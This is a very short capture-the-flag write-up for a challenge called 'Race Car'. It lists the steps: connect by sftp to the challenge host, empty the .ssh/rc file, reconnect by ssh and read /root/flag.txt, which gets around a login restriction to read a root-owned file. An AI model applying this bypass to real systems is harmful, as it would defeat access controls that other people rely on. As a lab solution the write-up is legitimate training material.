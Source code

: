 ### Race Car

![image](https://user-images.githubusercontent.com/4244357/133921637-52935cee-7375-4b91-90c9-be8426cebf2b.png)

```
* sftp -P 31721 user@challenge.ctf.games
* Edit the .ssh/rc (I used winscp)
* Delete everything in the file
* Save file
* ssh -p 31721 user@challenge.ctf.games
* cat /root/flag.txt
```
